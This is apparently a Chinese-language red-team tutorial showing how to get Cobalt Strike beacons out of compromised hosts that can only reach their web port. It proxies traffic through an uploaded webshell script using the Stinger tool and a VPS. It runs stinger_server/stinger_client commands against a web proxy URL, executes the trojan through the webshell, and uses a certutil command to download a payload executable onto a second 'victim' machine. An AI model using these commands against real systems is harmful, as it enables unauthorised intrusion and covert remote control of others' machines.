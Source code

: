 ##### 0x02.单主机上线方式

###### 已控主机为单主机，不出外网且仅允许访问目标Web的80端口。

###### 首先上传对应语言的脚本到服务器上，访问返回UTF-8表示正常。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903173334.png)

###### 然后继续上传stinger_server.exe到目标服务器，并执行以下命令。

    
    
    start stinger_server.exe 0.0.0.0
    
    注：作者提示不要直接运行stinger_server.exe，因为这样可能会导致TCP断连。

###### 接着把stinger_client上传到vps下并执行以下命令。

    
    
    chmod +x stinger_client
    
    ./stinger_client -w http://66.28.5.2/proxy.php -l 0.0.0.0 -p 60000

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903173335.png)

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903173336.png)

###### Cobalt
strike设置本地监听地址（127.0.0.1）和60020端口，然后选择cs_stinger的listen发送exe或者powershell都行。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903173337.png)

###### webshell执行Cobalt strike生成的马儿，成功上线，并且vps这边可以看到有数据在交互。

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903173338.png)

  

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903173339.png)

##### 0x03.多主机上线方式

###### CobaltStrike->Listeners->Add->10.10.19.50:60020

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903173342.png)

###### 受害机2执行如下命令，下载CS的有效载荷。

    
    
    certutil -urlcache -split -f http://10.10.19.50/stingers.exe C:\Users\fujszzs\Desktop\stingers.exe

![](http://hk-proxy.gitwarp.com/https://raw.githubusercontent.com/tuchuang9/tc1/refs/heads/main/public/20210903173343.png)

###### 受害机1，受害机2执行马儿成功上线。
